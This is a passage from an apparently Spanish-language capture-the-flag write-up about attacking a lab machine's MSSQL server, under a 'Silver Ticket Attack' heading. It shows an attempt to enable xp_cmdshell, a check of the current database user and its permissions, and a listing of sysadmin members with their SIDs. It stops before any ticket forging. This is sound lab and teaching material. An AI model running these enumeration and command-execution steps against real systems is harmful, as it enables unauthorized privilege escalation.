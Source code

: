 <br>

<h2 id="SilverTicket">Creando un Silver Ticket para Conectarnos a la Máquina Víctima (Silver Ticket Attack)</h2>

Veamos si con este usuario podemos activar la **xp_cmdshell**:
```batch
SQL (SIGNED\mssqlsvc  guest@master)> enable_xp_cmdshell
ERROR(DC01): Line 105: User does not have permission to perform this action.
ERROR(DC01): Line 1: You do not have permission to run the RECONFIGURE statement.
ERROR(DC01): Line 105: User does not have permission to perform this action.
ERROR(DC01): Line 1: You do not have permission to run the RECONFIGURE statement.
```
No tenemos los privilegios suficientes todavía.

Veamos qué usuario somos dentro de la BD:
```batch
SQL (SIGNED\mssqlsvc  guest@master)> SELECT USER_NAME();
        
-----   
guest
```
Es por eso que no podemos activar la **xp_cmdshell**.

Podemos consultar los privilegios que tenemos dentro la BD:
```batch
SQL (SIGNED\mssqlsvc  guest@master)> SELECT * FROM fn_my_permissions(NULL, 'DATABASE');
entity_name   subentity_name   permission_name                             
-----------   --------------   -----------------------------------------   
database                       CONNECT                                     

database                       VIEW ANY COLUMN ENCRYPTION KEY DEFINITION   

database                       VIEW ANY COLUMN MASTER KEY DEFINITION       

database                       VIEW SECURITY DEFINITION                    

database                       VIEW PERFORMANCE DEFINITION                 

database                       VIEW DEFINITION
```
Tenemos más permisos que con el **usuario scott**, siendo uno de interés el permiso **VIEW SECURITY DEFIITION** porque podemos ver metadatos de seguridad (roles, permisos, usuarios).

Veamos qué usuarios tienen máximos privilegios:
```batch
SQL (SIGNED\mssqlsvc  guest@master)> EXEC sp_helpsrvrolemember;
ServerRole   MemberName                                                                            MemberSID   
----------   -------------------------   -------------------------------------------------------------------   
sysadmin     sa                                                                                        b'01'   

sysadmin     SIGNED\IT                           b'0105000000000005150000005b7bb0f398aa2245ad4a1ca451040000'   

sysadmin     NT SERVICE\SQLWriter        b'010600000000000550000000732b9753646ef90356745cb675c3aa6cd6b4d28b'   

sysadmin     NT SERVICE\Winmgmt          b'0106000000000005500000005a048ddff9c7430ab450d4e7477a2172ab4170f4'   

sysadmin     NT SERVICE\MSSQLSERVER      b'010600000000000550000000e20f4fe7b15874e48e19026478c2dc9ac307b83e'   

```